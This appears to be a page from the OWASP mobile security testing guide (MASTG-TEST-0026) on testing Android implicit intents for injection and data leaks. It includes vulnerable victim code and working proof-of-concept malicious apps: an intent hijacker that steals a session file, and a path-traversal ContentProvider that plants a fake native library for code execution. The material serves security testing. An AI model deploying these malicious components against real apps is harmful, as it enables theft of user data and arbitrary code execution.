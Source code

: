 # MASTG-TEST-0026: Testing Implicit Intents
## Overview
When testing for implicit intents you need to check if they are vulnerable to injection attacks or potentially leaking sensitive data.
## Static Analysis
Inspect the Android Manifest and look for any <intent> signatures defined inside blocks ↗ (which specify the set of other apps an app intends to interact with), check if it contains any system actions (e.g. `android.intent.action.GET_CONTENT`, `android.intent.action.PICK`, `android.media.action.IMAGE_CAPTURE`, etc.) and browse the source code for their occurrence.

For example, the following Intent doesn't specify any concrete component, meaning that it's an implicit intent. It sets the action android.intent.action.GET_CONTENT to ask the user for input data and then the app starts the intent by startActivityForResult and specifying an image chooser.

```
Intent intent = new Intent();
intent.setAction("android.intent.action.GET_CONTENT");
startActivityForResult(Intent.createChooser(intent, ""), REQUEST_IMAGE);
```
The app uses `startActivityForResult `instead of `startActivity`, indicating that it expects a result (in this case an image), so you should check how the return value of the intent is handled by looking for the `onActivityResult` callback. If the return value of the intent isn't properly validated, an attacker may be able to read arbitrary files or execute arbitrary code from the app's internal `/data/data/' storage. A full description of this type of attack can be found in the [following blog post](https://blog.oversecured.com/Interception-of-Android-implicit-intents).

## Case 1: Arbitrary File Read¶
In this example we're going to see how an attacker can read arbitrary files from within the app's internal storage `/data/data/<appname> `due to the improper validation of the return value of the intent.

The performAction method in the following example reads the implicit intents return value, which can be an attacker provided URI and hands it to `getFileItemFromUri`. This method copies the file to a temp folder, which is usual if this file is displayed internally. But if the app stores the URI provided file in an external temp directory e.g by calling getExternalCacheDir or `getExternalFilesDir` an attacker can read this file if he sets the permission` android.permission.READ_EXTERNAL_STORAGE`.
```
private void performAction(Action action){
  ...
  Uri data = intent.getData();
  if (!(data == null || (fileItemFromUri = getFileItemFromUri(data)) == null)) {
      ...
  }
}

private FileItem getFileItemFromUri(Context, context, Uri uri){
  String fileName = UriExtensions.getFileName(uri, context);
  File file = new File(getExternalCacheDir(), "tmp");
  file.createNewFile();
  copy(context.openInputStream(uri), new FileOutputStream(file));
  ...
}```
The following is the source of a malicious app that exploits the above vulnerable code.

AndroidManifest.xml
```
<uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE" />
<application>
  <activity android:name=".EvilContentActivity">
      <intent-filter android:priority="999">
          <action android:name="android.intent.action.GET_CONTENT" />
          <data android:mimeType="*/*" />
      </intent-filter>
  </activity>
</application>
```
EvilContentActivity.java
```
public class EvilContentActivity extends Activity{
  @Override
  protected void OnCreate(@Nullable Bundle savedInstanceState){
    super.OnCreate(savedInstanceState);
    setResult(-1, new Intent().setData(Uri.parse("file:///data/data/<victim_app>/shared_preferences/session.xml")));
    finish();
  }
}
```
If the user selects the malicious app to handle the intent, the attacker can now steal the session.xml file from the app's internal storage. In the previous example, the victim must explicitly select the attacker's malicious app in a dialog. However, developers may choose to suppress this dialog and automatically determine a recipient for the intent. This would allow the attack to occur without any additional user interaction.

The following code sample implements this automatic selection of the recipient. By specifying a priority in the malicious app's intent filter, the attacker can influence the selection sequence.
```
Intent intent = new Intent("android.intent.action.GET_CONTENT");
for(ResolveInfo info : getPackageManager().queryIntentActivities(intent, 0)) {
    intent.setClassName(info.activityInfo.packageName, info.activityInfo.name);
    startActivityForResult(intent);
    return;
}
```
## Case 2: Arbitrary Code Execution¶
An improperly handled return value of an implicit intent can lead to arbitrary code execution if the victim app allows `content://` and `file://` URLs.

An attacker can implement a ContentProvider that contains public `Cursor query(...)` to set an arbitrary file (in this case lib.so), and if the victim loads this file from the content provider by executing copy the attacker's `ParcelFileDescriptor` openFile(...) method will be executed and return a malicious fakelib.so.

AndroidManifest.xml
```
<uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE" />
<application>
  <activity android:name=".EvilContentActivity">
      <intent-filter android:priority="999">
          <action android:name="android.intent.action.GET_CONTENT" />
          <data android:mimeType="*/*" />
      </intent-filter>
  </activity>
  <provider android:name=".EvilContentProvider" android:authorities="com.attacker.evil" android:enabled="true" android:exported="true"></provider>
</application>
```
EvilContentProvider.java

```
public Cursor query(Uri uri, String[] projection, String selection, String[] selectionArgs, String sortOrder) {
    MatrixCursor matrixCursor = new MatrixCursor(new String[]{"_display_name"});
    matrixCursor.addRow(new Object[]{"../lib-main/lib.so"});
    return matrixCursor;
}
public ParcelFileDescriptor openFile(Uri uri, String mode) throws FileNotFoundException {
    return ParcelFileDescriptor.open(new File("/data/data/com.attacker/fakelib.so"), ParcelFileDescriptor.MODE_READ_ONLY);
}
```
EvilContentActivity.java

```
public class EvilContentActivity extends Activity{
  @Override
  protected void OnCreate(@Nullable Bundle savedInstanceState){
    super.OnCreate(savedInstanceState);
    setResult(-1, new Intent().setData(Uri.parse("content:///data/data/com.attacker/fakelib.so")));
    finish();
  }
}
```